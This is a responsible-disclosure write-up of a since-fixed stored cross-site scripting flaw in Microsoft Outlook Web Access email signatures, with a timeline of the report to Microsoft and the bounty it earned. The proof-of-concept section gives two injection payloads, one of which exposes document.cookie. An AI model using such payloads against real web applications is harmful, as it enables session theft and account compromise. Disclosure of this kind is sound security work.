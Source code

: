 # Vulnerabilities discovered in Microsoft Office365 Outlook Web Access (https://outlook.office.com/owa)

### Overview
Outlook Web Access is a personal information manager web app from Microsoft. It is included in Microsoft 365, Office 365, Exchange Server 2016/2019, and Exchange Online. It includes a web-based email client, a calendar tool, a contact manager, and a task manager.

### Discovered by
#### [Gianluca Palma](https://www.linkedin.com/in/piuppi/) ([@piuppi](https://twitter.com/piuppi)) of [Engineering Ingegneria Informatica S.p.A.](https://www.eng.it)
 
### Proof of concept (POC)

#### Microsoft Office365 OWA is vulnerable to Stored XSS (Cross-Site-Scripting), which allows remote attackers to inject arbitrary HTML or web scripts by creating an ad-hoc email signature containing a malicious link, that can lead to data leakage. The XSS is executed whenever a new email message is created, however running a logoff and logon no longer triggers it.

#### Reproducing Steps

![](images/XSS-poc_R.gif)

##### Used payload:
```"></a></div><svg/onload=alert(String.fromCharCode(88,83,83))>\<!--```
    
```##### <%\<!--'%><script>alert(document.cookie);</script -->```

##### document.cookie: 
![screenshoot](images/document-cookie_R.png)

### Timeline
- **2019-06-25**: Discovered and reported to Microsoft
- **2019-06-25**: Got instant response from Microsoft Security Response Center, "Thank you for contacting the Microsoft Security Response Center (MSRC). Your report has been received and you should receive a follow-up message from the case manager once your case has been fully reviewed."
- **2019-06-26**: Got mail saying, "Thank you very much for your report.I have opened case '{redacted}' and the case manager, '{redacted}' will be in touch when there is more information."
- **2019-06-27**: Got mail saying, "Just a quick introduction, I'm the MSRC case manager who will be looking after this investigation moving forward. Thank you for reporting this to Microsoft responsibly - we appreciate your effort in doing so. At this moment the product team is investigating your report and I hope to have some feedback fairly soon."
- **2019-07-12**: Got mail saying, "We have successfully reproduced the issue that you reported to us.  We will be finishing our investigation and determining if we will address it in a security release."
- **2019-08-02**: Got mail saying, "We're happy to inform you that your case {redacted} is eligible for a $500 bounty award. Congratulations and thank you for your continued support in helping to secure some of the world's largest platforms, products, and services."
- **2019-09-09**: Got mail saying, "A fix has been confirmed for the issue you reported, We have resolved the issue you reported, and have closed this case."
